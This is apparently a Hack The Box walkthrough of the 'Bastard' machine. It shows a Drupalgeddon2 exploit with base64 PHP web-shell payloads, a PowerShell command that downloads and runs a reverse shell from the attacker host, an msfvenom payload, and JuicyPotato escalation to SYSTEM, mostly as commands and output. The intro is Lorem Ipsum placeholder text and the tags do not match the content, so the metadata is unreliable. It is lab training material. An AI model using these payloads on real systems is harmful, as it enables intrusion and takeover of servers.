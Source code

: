 ```yaml
---
layout: single
title: Bastard - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-bastard/bastard_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bastard/bastard_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/bastard]# nmap -Pn -n -sCV 10.10.10.9 --open                                                                       (master✱)
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Microsoft IIS httpd 7.5
    |_http-generator: Drupal 7 (http://drupal.org)
    | http-methods:
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
    |_/LICENSE.txt /MAINTAINERS.txt
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Welcome to 10.10.10.9 | 10.10.10.9
    135/tcp   open  msrpc   Microsoft Windows RPC
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  DIRB:


  NIKTO:



2. We can see that the server is running 'Drupal 7', which is very vulnerable. A quick google for 'drupal 7 rce exploit'
   and we find the ruby script drupalgeddon2, download it and exploit.

  [root:/git/htb/bastard]# ./drupalgeddon.rb http://10.10.10.9/                                                                     (master✱)
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.54
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Clean URLs
    [+] Result : Clean URLs enabled
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo AFLLPNGO
    [+] Result : AFLLPNGO
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.10.10.9/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (sites/default/)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (sites/default/files/)
    [*] Moving : ./sites/default/files/.htaccess
    [i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    [!] FAILED : Couldn't find a writeable web path
    --------------------------------------------------------------------------------
    [*] Dropping back to direct OS commands
  drupalgeddon2>> whoami
    nt authority\iusr
  drupalgeddon2>> type C:\Users\dimitris\Desktop\user.txt
    ba22fde1932d06eb76a163d312f921a2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Get a better shell, upgrade to Powershell.

  drupalgeddon2>> powershell.exe IEX(New-Object Net.Webclient).downloadString('http://10.10.14.8/ps-rev.ps1')

  [root:/srv/pub-share]# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.9 - - [02/Mar/2021 14:56:38] "GET /ps-rev.ps1 HTTP/1.1" 200 -

  root@nidus:/git/htb/bastard# rlwrap nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 50223
    PS C:\inetpub\drupal-7.54> whoami
      nt authority\iusr


2. Check your privs, and if it's possible to abuse them.

  PS C:\inetpub\drupal-7.54> whoami /all
    --- snip ---
    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name          Description                               State
    ======================= ========================================= =======
    SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
    SeImpersonatePrivilege  Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege Create global objects                     Enabled

'SeImpersonatePrivilege' is always interesting, this often mean we can get SYSTEM using JuicyPotato.


3. Juice up the potato!

Create a payload and put it on SMB Share:
  [root:/git/htb/bastard]# msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.8 lport=4499 > bastard-privesc.bat                (master✱)
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 1583 bytes
  [root:/git/htb/bastard]# cp bastard-privesc.bat /srv/pub-share

Check system OS:
  PS C:\inetpub\drupal-7.54> systeminfo
    --- snip ---
    OS Name:                   Microsoft Windows Server 2008 R2 Datacenter

Upload JuicyPotato, grab a random CLSID (from JuicyPotato's GitHub) and exploit:
  C:\tmp> copy \\10.10.14.8\pub-share\JuicyPotato.exe .
  C:\tmp> JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c \\10.10.14.8\pub-share\bastard-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}

The command doesn't provide any output, feel like something is wrong with the PS session. Try directly from drupalgeddon instead.

  drupalgeddon2>> C:\tmp\JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c \\10.10.14.8\pub-share\bastard-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1444
    ....
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK

  [root:/srv/pub-share]# nc -lvnp 4499
    listening on [any] 4499 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 50541
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
      nt authority\system

    C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt.txt
      4bf12b963da1b30cc93496f617f7ba7c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


drupalgeddon2:
  https://github.com/dreadlocked/Drupalgeddon2

JuicyPotato:
  https://github.com/ohpe/juicy-potato

CLSIDs Windows 2008 R2:
  https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
